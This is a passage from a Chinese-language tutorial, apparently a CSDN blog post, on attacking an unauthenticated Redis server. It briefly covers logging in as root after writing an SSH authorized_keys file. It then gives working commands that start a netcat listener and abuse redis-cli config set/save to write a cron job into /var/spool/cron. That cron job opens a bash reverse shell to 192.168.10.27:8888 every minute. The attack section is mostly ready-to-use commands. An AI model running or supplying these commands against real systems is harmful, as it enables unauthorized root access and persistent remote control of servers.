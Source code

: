 


![](https://img-blog.csdnimg.cn/20181129203231432.png)



![](https://img-blog.csdnimg.cn/20181129203850113.png)



然后我们现在就可以用XShell以私钥连接该主机了，注意，一定是以 **root** 用户的身份去登录



![](https://img-blog.csdnimg.cn/20181129204256204.png)



![](https://img-blog.csdnimg.cn/20181129211224452.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



可以看到我们已经登陆上了。并且可以在 /root/.ssh/ 目录下看到我们上传的 authorized\_keys 文件，正是由于这个文件的存在，我们才可以在本地用私钥登录。



![](https://img-blog.csdnimg.cn/20181129210910681.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 二：定时任务反弹shell



我们可以将 linux 反弹 shell 的命令写入定时任务中，这样，我们就可以接收到redis服务器反弹过来的shell了



我们客户端先接收一个端口



```
nc -lvp 8888  #监听8888端口
```




然后执行下面的命令



```
redis-cli -h 192.168.10.32  #登陆到redis数据库      
set d "\n\n*/1  *  *  *  * /bin/bash -i>&/dev/tcp/192.168.10.27/8888 0>&1\n\n"  #意思是每隔一分钟，向192.168.10.27的8888端口反弹shell      
config set dir /var/spool/cron  #设置工作目录      
config set dbfilename root      #设置文件名，当前用户叫啥就得命名为啥，当前用户为root      
save                            #保存成文件       
＃上面这几行命令的意思就是将 "\n\n*/1 * * * * * /bin/bash -i>&/dev/tcp/192.168.10.27/8888 0>&1\n\n" 这条命令写入test文件中，并且存放在/var/spool/cron目录下
```



